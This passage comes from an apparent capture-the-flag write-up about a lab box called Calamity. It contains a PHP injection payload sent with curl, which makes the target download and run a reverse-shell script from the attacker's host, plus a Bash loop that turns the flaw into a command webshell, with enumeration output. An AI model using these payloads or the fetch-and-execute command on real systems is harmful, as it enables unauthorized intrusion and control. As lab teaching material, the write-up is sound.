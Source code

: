 I could get the file with `wget` and then execute it:

    
    
    root@kali# curl -s -G http://10.10.10.27/admin.php --data-urlencode 'html=<?php system("wget 10.10.14.24/rev.py -O /dev/shm/r.py; python /dev/shm/r.py"); ?>' --cookie adminpowa=noonecares
    

I saw the request at my server:

    
    
    10.10.10.27 - - [23/Aug/2020 07:39:03] "GET /rev.py HTTP/1.1" 200 -
    

And then a connection at `nc`, but then it immediately died.

### Script Dumb Shell

Giving up on a reverse shell for now, I wrote a quick silly Bash script to
allow me to input commands and get the output:

    
    
    #!/bin/bash
    
    while :
    do
        echo -n "calamity> "
        read cmd
        if [ "$cmd" = "exit" ]; then exit; fi
        curl -s -G http://10.10.10.27/admin.php --data-urlencode "html=<?php system(\"$cmd\"); ?>" --cookie adminpowa=noonecares | sed -e '1,/<\/body><\/    html>/ d'
    done
    

It will print a prompt and then read into the variable `$cmd`. If `$cmd` is
“exit”, it quits. Then it will `curl` passing in the command, and loop.

This shell won’t keep state or allow me to change directories, but it works
well enough to do some enumeration:

    
    
    root@kali# rlwrap ./webshell.sh 
    calamity> id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    calamity> pwd 
    /var/www/html
    

I’ll run with `rlwrap` to get up arrow key for previous command.

### Enumeration

There’s one user with a home directory on the box:

    
    
    calamity> ls -la /home
    total 12
    drwxr-xr-x  3 root   root   4096 Jun 27  2017 .
    drwxr-xr-x 22 root   root   4096 Jun 29  2017 ..
    drwxr-xr-x  7 xalvas xalvas 4096 Jun 29  2017 xalvas
    